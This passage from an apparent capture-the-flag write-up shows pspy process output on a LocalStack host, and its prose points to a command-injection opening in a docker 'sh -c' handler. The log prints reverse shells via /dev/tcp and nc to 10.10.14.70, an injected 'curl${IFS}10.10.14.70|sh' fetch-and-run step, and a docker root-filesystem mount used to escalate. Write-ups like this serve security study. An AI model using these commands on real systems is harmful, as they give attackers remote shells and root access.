 Checking on pspy now we see what is happening on the backend. A docker get's created for the app and one command is executed with `sh -c`. Inside this command is a parameter which gets the `handler` variable passed we specified in `setup.sh`. This looks like a perfect opportunity for another command injection.

```
/tmp $ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2021/09/19 11:39:15 CMD: UID=0    PID=93     | java -Djava.library.path=./DynamoDBLocal_lib -Xmx256m -jar DynamoDBLocal.jar -port 47861 -dbPath /var/localstack/data/dynamodb
2021/09/19 11:39:15 CMD: UID=1001 PID=5833   | ./pspy64
2021/09/19 11:39:15 CMD: UID=0    PID=5814   | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5588   | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5587   | python -c import pty;pty.spawn("/bin/sh")
2021/09/19 11:39:15 CMD: UID=1001 PID=5583   | bash -i
2021/09/19 11:39:15 CMD: UID=1001 PID=5582   | bash -c bash -i >& /dev/tcp/10.10.14.70/443 0>&1
2021/09/19 11:39:15 CMD: UID=1001 PID=5581   | sh
2021/09/19 11:39:15 CMD: UID=1001 PID=5574   | /bin/sh -c { test `which aws` || . .venv/bin/activate; }; aws --endpoint-url="http://localhost:4566" lambda list-event-source-mappings --function-name api;curl${IFS}10.10.14.70|sh;
2021/09/19 11:39:15 CMD: UID=0    PID=4830   | docker run -v /:/mnt/host --entrypoint sh -it 0601ea177088
2021/09/19 11:39:15 CMD: UID=0    PID=280    | /bin/sh
2021/09/19 11:39:15 CMD: UID=1001 PID=26     | python bin/localstack web
2021/09/19 11:39:15 CMD: UID=0    PID=25     | python bin/localstack start --host
2021/09/19 11:39:15 CMD: UID=1001 PID=24     | make web
2021/09/19 11:39:15 CMD: UID=0    PID=23     | make infra
2021/09/19 11:39:15 CMD: UID=0    PID=226    | /bin/bash
2021/09/19 11:39:15 CMD: UID=0    PID=225    | python -c import pty;pty.spawn("/bin/bash")
2021/09/19 11:39:15 CMD: UID=0    PID=224    | nc 10.10.14.70 443
2021/09/19 11:39:15 CMD: UID=0    PID=223    | /bin/sh -i
2021/09/19 11:39:15 CMD: UID=0    PID=222    | cat /tmp/f
2021/09/19 11:39:15 CMD: UID=1001 PID=22     | bash -c if [ "$START_WEB" = "0" ]; then exit 0; fi; make web
2021/09/19 11:39:15 CMD: UID=0    PID=212    |
2021/09/19 11:39:15 CMD: UID=0    PID=18     | tail -qF /tmp/localstack_infra.log /tmp/localstack_infra.err
2021/09/19 11:39:15 CMD: UID=0    PID=16     | /usr/bin/python3.8 /usr/bin/supervisord -c /etc/supervisord.conf
2021/09/19 11:39:15 CMD: UID=0    PID=108    | node /opt/code/localstack/localstack/node_modules/kinesalite/cli.js --shardLimit 100 --port 43843 --createStreamMs 500 --deleteStreamMs 500 --updateStreamMs 500 --path /var/localstack/data/kinesis
2021/09/19 11:39:15 CMD: UID=0    PID=1      | /bin/bash /usr/local/bin/docker-entrypoint.sh
2021/09/19 11:40:20 CMD: UID=0    PID=5847   | unzip -o -q /tmp/localstack/zipfile.28a09a0a/original_lambda_archive.zip
```